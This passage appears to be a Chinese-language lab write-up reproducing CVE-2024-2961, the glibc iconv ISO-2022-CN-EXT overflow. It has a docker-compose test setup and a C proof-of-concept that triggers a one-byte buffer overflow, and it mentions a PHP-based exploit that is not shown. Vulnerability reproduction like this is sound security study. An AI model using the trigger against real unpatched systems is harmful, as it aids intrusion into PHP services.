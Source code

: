docker-compose.yml

```yaml
version: '3.8'

services:
  cve2961:
    build:
      context: .
      dockerfile: Dockerfile
    image: cve-2024-2961:v2
    container_name: cve-2024-2961-container
    ports:
      - "80:80"
    stdin_open: true
    tty: true
```

先透過以下 script 驗證是否會 overflow

```c
#include <stdio.h>
#include <string.h>
#include <iconv.h>
void hexdump(void *ptr, int buflen){
    unsigned char *buf = (unsigned char*)ptr;
    int i;
    for (i = 0; i < buflen; i++) {
        if (i % 16 == 0)
            printf("\n%06x: ", i);
        printf("%02x ", buf[i]);
    }
    printf("\n");
}
int main(){
    iconv_t cd = iconv_open("ISO-2022-CN-EXT", "UTF-8");
    char input[0x10] = "AAAAA劄";
    char output[0x10] = {0};
    char *pinput = input;
    char *poutput = output;
    size_t sinput = strlen(input);
    size_t soutput = sinput;
    iconv(cd, &pinput, &sinput, &poutput, &soutput);
    hexdump(output, 0x10);
    return 0;
}
```

![image](/images/cve-2024-2961/cve-2024-2961_image1.png)

可以發現確實 overflow 了一個 byte

後續的 exploit 使用直接建置 php 網頁的方式去做攻擊
